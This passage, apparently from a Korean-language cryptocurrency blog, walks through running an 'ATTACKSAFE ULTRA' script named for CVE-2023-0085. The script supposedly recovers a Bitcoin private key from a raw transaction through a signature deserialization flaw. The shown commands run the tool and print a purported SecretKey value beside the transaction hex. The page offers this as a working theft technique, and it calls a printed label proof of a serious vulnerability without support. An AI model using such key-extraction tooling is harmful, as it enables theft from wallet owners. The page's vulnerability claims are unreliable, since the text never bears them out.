 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading"><code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>소프트웨어를 사용하여&nbsp;시작하자<code>“ATTACKSAFE&nbsp;ULTRA”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>!./attacksafe deserialization_error_vulnerability_cve-2023-0085.sage -open RawTX.txt -save SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-33-1024x435.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5242"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>우리는 이 공격을 시작했고&nbsp;<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>그 결과는 파일에 저장되었습니다.<code><strong>SecretKey.txt</strong></code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code><strong>SecretKey.txt</strong></code></p>



<pre class="wp-block-code"><code><strong>cat SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-34-1024x223.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5243"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-35-1024x292.png" alt="비트코인 네트워크의 DeserializeSignature 취약성: 암호화 분석, 결과 및 잘못된 ECDSA 서명 생성 가능성" class="wp-image-5244"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>Deployments ECDSA:

SecretKey = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c

RawTX = 01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000</strong></code></pre>



<p><code>"Deployments ECDSA"</code>비트코인 블록체인 거래의 심각한 취약성을 의미하는&nbsp;비문이 보입니다.</p>
